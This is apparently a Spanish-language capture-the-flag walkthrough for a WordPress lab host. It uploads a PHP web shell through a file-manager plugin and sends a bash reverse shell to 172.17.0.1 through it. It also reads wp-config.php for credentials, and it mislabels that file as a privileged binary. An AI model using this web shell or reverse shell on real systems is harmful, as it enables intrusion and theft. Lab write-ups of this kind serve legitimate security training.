 ### 🛡️ **File Manager Plugins de WordPress: Riesgos**
Los plugins de administrador de archivos (como **File Manager**, **WP File Manager**, etc.) son herramientas poderosas pero también **un vector crítico de vulnerabilidades** si no se configuran adecuadamente.
- Permiten editar/eliminar cualquier archivo del servidor (incluyendo `wp-config.php`).
- Si un atacante obtiene acceso, puede:  
    • Robar bases de datos.  
    • Instalar backdoors.  
    • Desfigurar el sitio.

Una ves instalado el **File Manager** y **Activado** Ahora subiremos un archivo malicioso en la siguiente ruta:
```bash
http://pressenter.hl/wp-content/uploads/
```

**( cmd.php )** Este sera el nombre de nuestro archivo el cual contendra la siguiente instruccion que nos permita ejecutar una llamada a nivle de sistema:
```php
<?php
  system($_GET["cmd"]);
?>
```

### Ejecucion del Ataque
Ahora tendremos la capacidad de ejecutar comandos en la maquina victica, Lo que nos permite enviarnos una **reverShell** en nuestra maquina atacante:
### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
http://pressenter.hl/wp-content/uploads/cmd.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Tenemos el archivo de configuracion de la base de datos de **wordpress** el cual revisamos
```bash
# Comandos clave ejecutados
cat wp-config.php 
```

**Hallazgos Clave:**
- Binario con privilegios: `[ wp-config.php ]`
- Credenciales de usuario: `[ admin ]:[ rooteable ]`
